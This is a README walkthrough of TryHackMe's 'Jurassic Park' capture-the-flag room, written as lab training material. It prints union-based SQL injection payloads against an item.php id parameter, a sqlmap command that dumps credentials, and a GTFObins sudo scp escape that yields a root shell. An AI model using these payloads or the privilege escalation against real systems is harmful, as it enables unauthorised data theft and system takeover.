

# Jurassic Park CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Jurassic Park** CTF challenge on [TryHackMe](https://tryhackme.com/room/jurassicpark). 
---

we see open ports 22 and 80


from feroxbuster we see some hidden files 


/robots.txt nothing interesting just some references 


/delete might suggest some MySQL database


main page we see a link to a shop



in /item.php we see parameter `id`


we can try to fuzz this parameter to test for IDOR first

```
ffuf -w /usr/share/seclists/Fuzzing/3-digits-000-999.txt -u http://$IP/item.php\?id\=FUZZ -fs 81
```


in ?id=005 we see diffrent site with some more hints about WAF and blocked characters


in ?id=100 we see other diffrent site with weird values


from ZAP Active Scan we know about potential SQLi


after fuzzing SQLi we see that some payloads are reflected


we see that if we use `'` there is indeed some protection against attacks


we can try union based attack by using payload: `100 union select 1`


we see an error but we might be on right path we need to adjust column number

after adjusting the number we got working response that gives us some clue about database, working payload 

```
?id=100 union select 1,2,3,4,5
```


now we can use functions like: `database()` and `version()` to gain more info about db

```
?id=100 union select 1,2,3,version(),5

?id=100 union select 1,2,3,database(),5
```


we can test further with sqlmap

```
sqlmap -u "http://10.10.16.110/item.php?id=100" --dump --batch --dbs park
```


we found passwords, we also know about username dennis from pages that we fuzzed


after logging as dennis via ssh we can grab first flag


by looking at the `.bash_history` we can see flag number 3


we can look into `sudo -l` output, we also can check GTFObins for way to gain root access


we can easily replicate the steps to become root

```
$ TF=$(mktemp)
$ echo 'sh 0<&2 1>&2' > $TF
$ chmod +x "$TF"
$ sudo scp -S $TF x y:
```


now we need to find rest of the flags

flag number 5 is in /root


to find flag number 2 I used simple find command

```
find / -name "*flag*" 2>/dev/null
```


# MACHINE PWNED
